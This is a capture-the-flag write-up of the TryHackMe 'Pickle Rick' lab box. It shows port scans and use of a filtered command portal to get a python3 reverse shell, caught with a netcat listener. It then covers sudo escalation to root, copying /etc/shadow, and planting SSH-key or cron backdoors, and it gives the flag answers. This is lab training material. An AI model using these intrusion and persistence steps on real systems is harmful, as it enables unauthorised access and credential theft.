






# Write Up for Try Hack Me box - [Pickle Rick](https://tryhackme.com/room/picklerick)

Quite and easy box where we get on system through a command allowlisting issues.\
The root access couldn't be any easier. Someone left the keys hanging on the door.

> Pratyush Prakhar (5#1NC#4N) - 11/02/203

## RECONNAISSANCE

1. Scan the box with rustscan.
	1. Full port scan --> [nmap file](rustscan/all.nmap).

	**Results**

	```bash
	$ rustscan --range 1-65535 -a 10.10.110.219 -- -oN rustscan/all.nmap 
    .----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
    | {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
    | .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
    `-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
    The Modern Day Port Scanner.
    ________________________________________
    : http://discord.skerritt.blog           :
    : https://github.com/RustScan/RustScan :
    --------------------------------------
    Nmap? More like slowmap.🐢

    [~] The config file is expected to be at "/home/kali/.rustscan.toml"
    [!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
    [!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
    Open 10.10.110.219:22
    Open 10.10.110.219:80
    [~] Starting Script(s)
    [>] Running script "nmap -vvv -p {{port}} {{ip}} -oN rustscan/all.nmap" on ip 10.10.110.219
    Depending on the complexity of the script, results may take some time to appear.
    [~] Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-11-10 17:33 IST
    Initiating Ping Scan at 17:33
    Scanning 10.10.110.219 [2 ports]
    Completed Ping Scan at 17:33, 0.16s elapsed (1 total hosts)
    Initiating Parallel DNS resolution of 1 host. at 17:33
    Completed Parallel DNS resolution of 1 host. at 17:33, 0.03s elapsed
    DNS resolution of 1 IPs took 0.03s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
    Initiating Connect Scan at 17:33
    Scanning 10.10.110.219 [2 ports]
    Discovered open port 22/tcp on 10.10.110.219
    Discovered open port 80/tcp on 10.10.110.219
    Completed Connect Scan at 17:33, 0.16s elapsed (2 total ports)
    Nmap scan report for 10.10.110.219
    Host is up, received syn-ack (0.16s latency).
    Scanned at 2023-11-10 17:33:41 IST for 0s

    PORT   STATE SERVICE REASON
    22/tcp open  ssh     syn-ack
    80/tcp open  http    syn-ack

    Read data files from: /usr/bin/../share/nmap
    Nmap done: 1 IP address (1 host up) scanned in 0.38 seconds
	```

	2. Full Service and Scripts scan on the found ports. --> [nmap file](rustscan/main.nmap)

	**Results**

	```bash
	$ rustscan --ports 22,80 -a 10.10.110.219 -- -sC -sV -oN rustscan/main.nmap  
    .----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
    | {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
    | .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
    `-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
    The Modern Day Port Scanner.
    ________________________________________
    : http://discord.skerritt.blog           :
    : https://github.com/RustScan/RustScan :
    --------------------------------------
    Real hackers hack time ⌛

    [~] The config file is expected to be at "/home/kali/.rustscan.toml"
    [!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
    [!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
    Open 10.10.110.219:80
    Open 10.10.110.219:22
    [~] Starting Script(s)
    [>] Running script "nmap -vvv -p {{port}} {{ip}} -sC -sV -oN rustscan/main.nmap" on ip 10.10.110.219
    Depending on the complexity of the script, results may take some time to appear.
    [~] Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-11-10 17:40 IST
    NSE: Loaded 156 scripts for scanning.
    NSE: Script Pre-scanning.
    NSE: Starting runlevel 1 (of 3) scan.
    Initiating NSE at 17:40
    Completed NSE at 17:40, 0.00s elapsed
    NSE: Starting runlevel 2 (of 3) scan.
    Initiating NSE at 17:40
    Completed NSE at 17:40, 0.00s elapsed
    NSE: Starting runlevel 3 (of 3) scan.
    Initiating NSE at 17:40
    Completed NSE at 17:40, 0.00s elapsed
    Initiating Ping Scan at 17:40
    Scanning 10.10.110.219 [2 ports]
    Completed Ping Scan at 17:40, 0.15s elapsed (1 total hosts)
    Initiating Parallel DNS resolution of 1 host. at 17:40
    Completed Parallel DNS resolution of 1 host. at 17:40, 0.00s elapsed
    DNS resolution of 1 IPs took 0.00s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
    Initiating Connect Scan at 17:40
    Scanning 10.10.110.219 [2 ports]
    Discovered open port 80/tcp on 10.10.110.219
    Discovered open port 22/tcp on 10.10.110.219
    Completed Connect Scan at 17:40, 0.16s elapsed (2 total ports)
    Initiating Service scan at 17:40
    Scanning 2 services on 10.10.110.219
    Completed Service scan at 17:41, 6.36s elapsed (2 services on 1 host)
    NSE: Script scanning 10.10.110.219.
    NSE: Starting runlevel 1 (of 3) scan.
    Initiating NSE at 17:41
    Completed NSE at 17:41, 4.92s elapsed
    NSE: Starting runlevel 2 (of 3) scan.
    Initiating NSE at 17:41
    Completed NSE at 17:41, 0.65s elapsed
    NSE: Starting runlevel 3 (of 3) scan.
    Initiating NSE at 17:41
    Completed NSE at 17:41, 0.00s elapsed
    Nmap scan report for 10.10.110.219
    Host is up, received syn-ack (0.15s latency).
    Scanned at 2023-11-10 17:40:55 IST for 12s

    PORT   STATE SERVICE REASON  VERSION
    22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 df:f0:53:2e:3e:15:bf:34:30:32:0f:76:7b:dd:f2:e3 (RSA)
    | ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDYgUqnsD0iU8W8llafklFVl86zhb0mEFOfuUhEWilNfOwaChQInv3r03fbtxUJZEP9krA+0FL7D5Ob/iwYziUa+PQpahGYW6HluQOv324muXGxNCA5FPX6wCJ8xFZ1yFCWjvIv7grk3ru71MZVJ8tNIx4bOvnR+W62SV+ju15UtJcR+//oUzLSAgff8HMFrSFe8o7nVqNSsgoxoo4BQnLXdK8P9X9CwVlSjPRtFxJJwq/AmDlKkKwigCNiL/qvSG+OqtQTHOEQYeu5EnmxRj+hgoW7KliZql6w6Sb0uKVW/7at5RLLY/si8ifkosDbptL7KqEPhynfvx2+8tER4QwX
    |   256 e3:e3:55:24:7a:d1:df:80:5f:93:92:94:a8:0d:f2:3f (ECDSA)
    | ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBM06/UCs+eoWLkgx/5i2HAku7IyI9Qot1CKHsFgvy9BZh2LwdKYsEjXsyzIHczKbCJ3Yv+RZhI8LCqZdk2Ed864=
    |   256 f9:67:7b:a5:f9:7d:8f:08:3b:d5:9e:e3:67:10:48:0c (ED25519)
    |_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIH35J/udnMxsO5dTmy3l0lnA+m1+VzYxzfItoEXOM7RT
    80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
    | http-methods: 
    |_  Supported Methods: OPTIONS GET HEAD POST
    |_http-server-header: Apache/2.4.18 (Ubuntu)
    |_http-title: Rick is sup4r cool
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

    NSE: Script Post-scanning.
    NSE: Starting runlevel 1 (of 3) scan.
    Initiating NSE at 17:41
    Completed NSE at 17:41, 0.00s elapsed
    NSE: Starting runlevel 2 (of 3) scan.
    Initiating NSE at 17:41
    Completed NSE at 17:41, 0.00s elapsed
    NSE: Starting runlevel 3 (of 3) scan.
    Initiating NSE at 17:41
    Completed NSE at 17:41, 0.00s elapsed
    Read data files from: /usr/bin/../share/nmap
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 12.65 seconds
	```

2. There are **2 TCP** ports open. 
	1. *Port 22* - SSH - **OpenSSH 7.2p2**
	2. *Port 80* - HTTP - **Apache httpd 2.4.18**

3. Let's look into them one by one.

## WEB

1. Let's first check out the web server on port 80. 
	1. We get a static page with no links going out to any other page.
    
	2. We will go for the low hanging fruit - robots, page source and try to get some information.
    
    \
    \
    
	3. We can run sub domain check on this port using `feroxbuster`. Results can be found [here](web/ferox.out).
	4. Look through a proxy to get more details on the request:response model setup.
	5. Run a basic Nikto Scan. The results can be obtained here - [Nikto Scan](web/nikto.txt).

2. From the `robots.txt` and `page-source`, we get a set of [credentials](web/creds.txt) that might come in handy later. 

3. From the `feroxbuster scan`, we find out that there is a login.php --> portal.php where we can get in with the found credentials. We land on a portal page that allows us to run system commands with some exceptions of-course. Running the `ls` commands, we find that we are in the web-root with `www-data` user.

\
\
 

4. We find that there are not many commands that we can run to read the following files as the most common read commands are blocked. We find these later when we get the source code of `portal.php`. But we can use the other commands like `ls` or `rev` to read these files. We can read the first flag as [Sup3rS3cretPickl3Ingred](ssh/html/Sup3rS3cretPickl3Ingred.txt) and the portal [file](ssh/html/portal.php) to know that we can run the commands that are not blocked.

```bash
Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt
```

\
\


5. We can now use this knowledge to get a reverse shell on the box using `/usr/bin/python3` as it is not blocked.

## INITIAL ACCESS

1. We get a reverse shell on our `netcat listener`. Let's stabilize it to make it easier to operate. *python3* is present. Let's use it.


\
```bash
$ nc -lnvvp 1337                                    
listening on [any] 1337 ...
connect to [10.17.88.193] from (UNKNOWN) [10.10.110.219] 41572
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@ip-10-10-110-219:/var/www/html$ ^Z
zsh: suspended  nc -lnvvp 1337
                                                                                                                                   
┌──(kali㉿kali)-[~/…/Completed/Easy/Pickle Rick/web]
└─$ stty -a | head -n1                  
speed 38400 baud; rows 38; columns 131; line = 0;
                                                                                                                                   
┌──(kali㉿kali)-[~/…/Completed/Easy/Pickle Rick/web]
└─$ stty raw -echo;fg 
[1]  + continued  nc -lnvvp 1337

www-data@ip-10-10-110-219:/var/www/html$ export TERM=xterm
www-data@ip-10-10-110-219:/var/www/html$ stty rows 38 cols 131
```


2. We get in as `www-data` user. Let's manually enumerate the system. Few places to look into.
    1. **/var/www/html** which is the web root. We find a [clue.txt](ssh/html/clue.txt) and a Base85 string that both point to the next flag to be on the system somewhere. Let's check it out.

	2. **/home** --> we can read the contents in the `rick` directory. We thus obtain the [second flag](ssh/rick/second_ingredients.txt).

	```bash
	www-data@ip-10-10-110-219:/home$ ls
    rick  ubuntu
    www-data@ip-10-10-110-219:/home$ ls -la rick/
    total 12
    drwxrwxrwx 2 root root 4096 Feb 10  2019 .
    drwxr-xr-x 4 root root 4096 Feb 10  2019 ..
    -rwxrwxrwx 1 root root   13 Feb 10  2019 second ingredients
    www-data@ip-10-10-110-219:/home$ cat rick/second\ ingredients 
    ******************
	```
	
3. Now let's run a linpeas script to find a way to either horizontally move to `rick` or possibly `escalate` to root. We can also do some manual testing in the meanwhile.

## ROOT ACCESS

1. We find running the `sudo -l` command that we already have keys to the kingdoms. Check it out.

```bash
www-data@ip-10-10-110-219:/tmp$ sudo -l
Matching Defaults entries for www-data on ip-10-10-110-219.eu-west-1.compute.internal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-110-219.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
www-data@ip-10-10-110-219:/tmp$ sudo su rick
No passwd entry for user 'rick'
www-data@ip-10-10-110-219:/tmp$ sudo su ubuntu
ubuntu@ip-10-10-110-219:/tmp$ whoami
ubuntu
ubuntu@ip-10-10-110-219:/tmp$ sudo -l
Matching Defaults entries for ubuntu on ip-10-10-110-219.eu-west-1.compute.internal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User ubuntu may run the following commands on ip-10-10-110-219.eu-west-1.compute.internal:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: ALL
    (ALL) NOPASSWD: ALL
ubuntu@ip-10-10-110-219:/tmp$ sudo su root
root@ip-10-10-110-219:/tmp# whoami
root
```

2. And we are root, just like that. Let's go check out the `/root` directory to maybe get the last flag. And the box is done like that.

```bash
root@ip-10-10-110-219:/tmp# cd /root/
root@ip-10-10-110-219:~# ls
3rd.txt  snap
root@ip-10-10-110-219:~# cat 3rd.txt 
****************************88
```

## EXTRA TREATS

1. We can now obtain the [following files](ssh/etc) easily that can be used later.
	1. **/etc/passwd**
	2. **/etc/shadow**
	3. **/etc/hosts**
	4. **/etc/sudoers**
	5. **/etc/crontab**
	6. **/proc**

2. We can also add our *ssh keys* to `authorized_keys` to get a foothold on the box. You can use other methods like crons and process hijacking as well to plant a backdoor. These can be found fro [ubuntu](ssh/ubuntu) and [root](ssh/root).

3. Find out more with the linpeas scans that can be obtained [here](ssh/tmp). Have fun exploring other things.

## FLAGS

1. What is the first ingredient that Rick needs? - `mr. meeseek hair`.

2. What is the second ingredient in Rick’s potion? - `1 jerry tear`.

3. What is the last and final ingredient? - `fleeb juice`.

**Stay Tuned On**\
[Github](https://github.com/pratty010/Boxes)\
[LinkedIn](https://www.linkedin.com/in/pratyush-prakhar/)